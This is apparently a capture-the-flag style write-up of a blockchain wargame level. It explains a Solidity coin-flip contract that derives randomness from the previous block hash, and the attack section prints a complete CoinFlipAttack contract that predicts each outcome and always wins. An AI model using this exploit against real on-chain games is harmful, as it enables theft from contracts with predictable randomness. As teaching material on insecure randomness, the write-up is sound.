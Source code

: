 # COINFLIP

## In this level we'll be able to know the importance of blockvalue and how its uage can be miused or manipulated

### Let us go through the contract first

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

## The CoinFlip contract has a simple coin-flipping mechanism:

## State Variables:

### consecutiveWins:

 Tracks the number of consecutive wins.

### lastHash: 

Stores the hash of the last block to prevent replays.

### FACTOR: 

A large constant used to determine the outcome of the coin flip.

### Constructor:

Initializes consecutiveWins to 0.

### flip Function:

---> Takes a boolean guess (true or false) about the outcome of the coin flip.

---> Retrieves the hash of the most recent block and converts it to a uint256.

---> Uses lastHash to prevent replay attacks (i.e., making sure the function isn't called with the same block hash more than once).

---> Computes the coin flip outcome by dividing the block hash by the FACTOR.

---> Determines if the computed side matches the guess.

---> Updates consecutiveWins if the guess was correct; otherwise, it resets the count.

## THE EXPLOIT

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
 
contract CoinFlipAttack {

        CoinFlip flip = CoinFlip(0xFede5F8da39e1Ad890376f8760A43b7401304F35);
        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function flipattack() public{
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        flip.flip(side);
    }}

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

---> In the above attack contract we have included the actual coinflip contract and that we have included an instance of the same in our attack contract.

---> The attack contract simply makes use of the blockvalue.

## THE KEY 

### Block Hash Predictability:

The block hash used in the CoinFlip contract is predictable within the same block. This means that the CoinFlipAttack contract can predict the result of the coin flip by reading the block hash and performing the same computation as the CoinFlip contract.
Since the block hash is publicly available and deterministic, the attacker can simulate the coin flip outcome in their attack contract.

---> We can then call the flipattack function, which reads the block hash, computes the coin flip result, and then calls the flip function on the CoinFlip contract with the predicted result.

---> This allows us to always win the coin flip, incrementing the consecutiveWins counter in the CoinFlip contract.

## HEHE SO BEWARE WHILE USING BLOCKVALUE

## THANK YOU !!!
